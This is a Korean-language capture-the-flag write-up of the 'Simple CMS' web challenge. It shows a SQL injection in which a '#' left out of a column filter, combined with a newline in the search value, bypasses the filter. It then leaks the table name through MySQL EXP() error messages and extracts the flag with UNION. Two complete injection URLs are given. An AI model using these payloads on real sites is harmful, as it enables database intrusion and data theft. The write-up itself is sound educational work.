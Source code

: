 Simple CMS 193pt (Web)

![](image0.png)

뭔가 XpressEngine과 비슷한 클래스들이 있는 웹 문제였다. 취약점은 Board.class.php에서 검색 컬럼을 그대로 넣는데 필터링중에 #를 필터링하지 않음에 있었다.

`WHERE <column>=’<search>’`이였고 column, search 둘다 addslashes 처리가 되어있었다. 참고로 필터는 아래와 같다.

```php
if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
	$column = 'title';
}
```

여기서 column이 필터링에 걸리지 않는 문자인 #로 끝나면 search에 개행을 넣을 경우 #뒤는 전부 무시되니까 개행 이후가 쿼리로서 실행되게 된다. 단 저기서 `<prefix>`가 설치할 때 랜덤하게 지정된다. install/index.php, 즉 설치 스크립트에서 쓰이는 install/simple_cms.sql를 보면 플래그도 DB에 있었는데,



같은 prefix가 붙은 테이블명과 다른 prefix가 붙은 컬럼명들로 이루어져있었기때문에 쿼리 에러가 출력되는 점을 잘 이용해서 테이블명을 노출시키고 UNION이랑 서브쿼리를 써서 플래그를 뽑아냈다.

주소:
`/index.php?act=board&mid=search&col=title%23&type=1&search=%0A)||EXP(~title)%23`



일단 이렇게 테이블명을 뽑아낼 수 있다. EXP 등 몇몇 함수에 들어가는 함수에서 범위 에러등이 나면 그 안에 들어가는 확장된 구문트리를 그대로 풀어서 보여주는 MySQL 계열 DB들의 기능이 원인인 듯 하다. 정확한 이유는 잘 모르겠고 MySQL 소스코드에 나와있을 것 같다. 아마 몇버전 이상에서만 되었던 것 같다. mysql error based injection exp 등으로 구글링해보면 나오는 것 같은데 정확한 검색어는 모르겠다.

주소:
`/index.php?act=board&mid=search&col=%23&type=1&search=%0a0)%20union%20select%201,a,b,c,d%20from%20(select%201%20as%20a,%201%20as%20b,%201%20as%20c,%201%20as%20d%20union%20select%20*%20from%2041786c497656426a6149_flag)a%20limit%201,1%23`


** Flag: you_are_error_based_sqli_master_XDDDD_XD_SD_xD **
